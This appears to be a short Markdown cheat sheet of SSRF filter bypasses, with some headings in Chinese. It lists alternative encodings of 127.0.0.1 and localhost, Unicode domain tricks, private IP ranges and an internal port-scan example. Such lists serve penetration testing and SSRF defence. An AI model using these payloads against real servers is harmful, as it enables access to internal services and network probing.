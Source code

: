 http://blog.portswigger.net/2015/08/server-side-template-injection.html

# SSRF

## Bypass 127.0.0.1 

```
127.0.0.1
localhost
127.0.1
127.1
0.0.0.0
0.0
0

::1
::127.0.0.1
::ffff:127.0.0.1
::1%1

127.12.34.56 (127.0.0.1/8)
127.0.0.1.xip.io

http://2130706433 (decimal)
http://0x7f000001
http://017700000001
http://0x7f.0x0.0x0.0x1
http://0177.0.0.1
http://0177.01.01.01
http://0x7f.1
http://[::]

```

## Bypass using Ⓐ Ⓑ Ⓒ Ⓓ

- `http://ⓀⒶⒾⒷⓇⓄ.ⓉⓌ`
- `http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`

## 内网IP

- `10.0.0.0/8`
- `172.16.0.0/12`
- `192.168.0.0/16`

## XSPA

- port scan
    - `127.0.0.1:80` => OK
    - `127.0.0.1:87` => Timeout
    - `127.0.0.1:9487` => Timeout
